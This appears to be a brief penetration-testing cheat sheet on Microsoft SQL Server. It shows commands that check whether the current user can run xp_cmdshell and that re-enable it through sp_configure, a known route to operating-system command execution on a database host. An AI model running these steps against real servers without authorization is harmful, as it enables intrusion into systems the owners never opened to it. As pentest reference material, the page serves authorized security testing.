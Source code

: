# Microsoft SQL server
All info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## xp_cmdshell
A common target is to run the stored procedure xp_cmdshell  
Check if user can run:
```bash
EXEC xp_cmdshell 'net user';
```
if deactivated:
```bash
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```


